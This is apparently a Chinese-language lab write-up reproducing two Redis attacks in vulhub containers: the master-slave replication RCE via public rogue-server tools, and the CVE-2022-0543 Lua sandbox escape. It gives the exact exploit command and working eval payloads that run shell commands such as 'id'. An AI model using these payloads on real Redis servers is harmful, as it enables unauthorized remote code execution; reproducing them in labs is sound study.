







# Redis主从复制漏洞复现

### 复现准备

- 镜像拉取,去github下载官方的vulhub到本地

```bash
cd vulhub/redis/4-unacc/
docker-compose up -d
```



- 靶机:`192.168.2.254:6379`
- 攻击机:`192.168.2.52`
- 在进行复现前确保`靶机6379`端口正常开启,并且能进行相互通信

### 获取poc

```bash
git clone https://github.com/Ridter/redis-rce
git clone https://github.com/n0b0dyCN/redis-rogue-server
```

- 放在同一文件夹



### 获取权限

```cmd
python redis-rce.py -r 192.168.2.254 -L 192.168.1.52 -f exp.so
```



### 原理剖析

- 脚本首先通过`Remote`类连接到目标的Redis服务器,设置伪装服务器为Redis的`从服务器`
- 在`同步请求`时,伪装服务器将`恶意模块`传输到目标服务器并将其`载入`
- 攻击者可选交互式shell或者反弹shell
- 通过`cleadnup`函数卸载恶意模块并清除痕迹

********

# Redis沙箱逃逸

> CVE-2022-0543


- `2.2<=redis<6.25`
- 需要知道`package.loadlib`的路径
- 利用`luaopen_io`函数

### 复现准备

- 攻击机:`192.168.2.14`
- 靶机:`192.168.2.254`
- 拉取镜像(靶机)



- 攻击机环境准备

```bash
wget http://download.redis.io/redis-stable.tar.gz
```



- 解压

```
tar -zxvf redis-stable.tar.gz
```

- 编译安装包(大约3分钟)



### 连接服务器

```bash
edis-cli -h 192.168.2.254 -p 6379

//payload
eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("ls /etc/", "r"); local res = f:read("*a"); f:close(); return res' 0

或

eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("id", "r"); local res = f:read("*a"); f:close(); return res' 0
```



